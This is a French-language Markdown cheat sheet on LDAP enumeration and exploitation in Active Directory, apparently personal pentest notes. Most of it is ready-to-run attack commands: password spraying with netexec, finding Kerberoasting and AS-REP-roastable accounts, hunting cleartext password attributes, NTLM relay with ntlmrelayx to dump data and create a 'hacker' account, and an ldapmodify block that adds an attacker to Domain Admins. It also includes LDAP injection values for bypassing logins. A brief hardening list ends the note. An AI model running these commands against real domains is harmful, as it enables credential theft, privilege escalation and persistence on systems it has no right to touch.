

## Enumération LDAP

> [!tip]
> Toujours vérifier le **RootDSE** pour identifier les capacités du serveur LDAP.

> [!warning]
> Prérequis : L'énumération anonyme dépend strictement de la configuration 'Allow Anonymous Bind' sur le serveur cible.

### Enumération avec ldapsearch

```bash
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com"
```

- **-x** : mode anonyme (pas d'authentification SASL).
- **-H** : adresse du serveur LDAP.
- **-b** : base DN (Domain Name).

Recherche d'objets spécifiques :

```bash
# Utilisateurs
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com" "(objectClass=person)"

# Groupes
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com" "(objectClass=group)"

# Ordinateurs
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com" "(objectClass=computer)"

# Extraction sAMAccountName
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com" "(objectClass=person)" sAMAccountName
```

### Enumération avec nmap

```bash
# Détection du service
nmap -p 389,636 --script=ldap-rootdse <IP>

# Lister les utilisateurs
nmap -p 389 --script ldap-search --script-args 'ldap.username="*",ldap.base="dc=example,dc=com"' <IP>
```

### Enumération avec windapsearch

```bash
python3 windapsearch.py -d example.com --dc-ip <IP> -U
```

- **-U** : récupère tous les utilisateurs.
- **-G** : récupère tous les groupes.
- **-C** : récupère tous les ordinateurs.

### LDAPS (port 636) et validation des certificats

Le protocole **LDAPS** assure le chiffrement des échanges via TLS. Lors de l'énumération, il est nécessaire de gérer la validation des certificats.

```bash
# Connexion LDAPS avec validation désactivée (si certificat auto-signé)
ldapsearch -H ldaps://<IP>:636 -x -b "dc=example,dc=com" -D "CN=User,DC=example,DC=com" -w 'Password' -d 1
```

> [!tip]
> Si le certificat est invalide ou auto-signé, l'option `-d 1` permet de déboguer les erreurs de handshake TLS.

### Attaques par force brute/password spraying sur LDAP

Le **Password Spraying** consiste à tester un mot de passe unique contre une liste d'utilisateurs pour éviter le verrouillage des comptes.

```bash
# Utilisation de netexec pour le spraying
netexec ldap <IP> -u users.txt -p 'Password123!' --continue-on-success
```

### Kerberoasting/AS-REP Roasting via LDAP

L'énumération LDAP permet d'identifier les comptes éligibles à ces attaques en interrogeant les attributs spécifiques.

```bash
# AS-REP Roasting : Rechercher les utilisateurs sans pré-authentification Kerberos requise
ldapsearch -H ldap://<IP> -x -b "dc=example,dc=com" "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" sAMAccountName

# Kerberoasting : Rechercher les comptes avec un SPN défini
ldapsearch -H ldap://<IP> -x -b "dc=example,dc=com" "(servicePrincipalName=*)" sAMAccountName,servicePrincipalName
```

## Exploitation LDAP

### Détection d'accès anonyme

```bash
ldapsearch -x -H ldap://<IP> -b "" -s base
```

### Recherche d'attributs sensibles

```bash
# Mots de passe en clair
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com" "(|(userPassword=*)(unicodePwd=*))"

# Permissions des utilisateurs
ldapsearch -x -H ldap://<IP> -b "dc=example,dc=com" "(objectClass=person)" dn,memberOf
```

### Attaques par relais NTLM

> [!danger]
> L'utilisation de **ntlmrelayx** peut provoquer un déni de service sur le contrôleur de domaine si mal configuré.

```bash
# Relais LDAP vers SMB
ntlmrelayx.py -t ldap://<IP> -wh attacker-machine --dump

# Création d'utilisateur via relais
ntlmrelayx.py -t ldap://<IP> --add-user hacker --add-pass "SuperSecure123!"
```

### Exploitation avec BloodHound

Exfiltration des données via **SharpHound** :

```powershell
Invoke-BloodHound -CollectionMethod All -Domain example.com -LDAP
```

### Techniques de persistence via LDAP (GPO, ACLs)

La modification des **GPO** ou des **ACLs** via LDAP permet de maintenir un accès privilégié.

```bash
# Exemple : Ajout d'un utilisateur au groupe Domain Admins via LDAP (nécessite privilèges)
ldapmodify -H ldap://<IP> -D "CN=Admin,DC=example,DC=com" -w 'Password' <<EOF
dn: CN=Domain Admins,CN=Users,DC=example,DC=com
changetype: modify
add: member
member: CN=Hacker,CN=Users,DC=example,DC=com
EOF
```

## Bypass d'authentification (LDAP Injection)

> [!danger]
> L'injection LDAP est une vulnérabilité applicative distincte de l'énumération protocolaire.

| Champ | Valeur pour bypass |
| :--- | :--- |
| Username | * |
| Password | * |
| OU | `)(uid=))( ` |

Exemple de requête vulnérable : `(&(uid=#username#)(userPassword=#password#))`

Si l'entrée est `*` pour les deux champs, la requête devient `(&(uid=*)(userPassword=*))`, ce qui valide l'authentification pour n'importe quel utilisateur existant.

## Sécurisation LDAP

- Désactiver l'accès anonyme dans **slapd.conf** ou **Active Directory**.
- Forcer le chiffrement avec **LDAPS** (port 636).
- Restreindre les permissions **LDAP** aux utilisateurs nécessaires.
- Activer l'audit des connexions **LDAP**.

---

*Notes liées : **Active Directory Enumeration**, **NTLM Relay Attacks**, **BloodHound Analysis**, **LDAP Injection***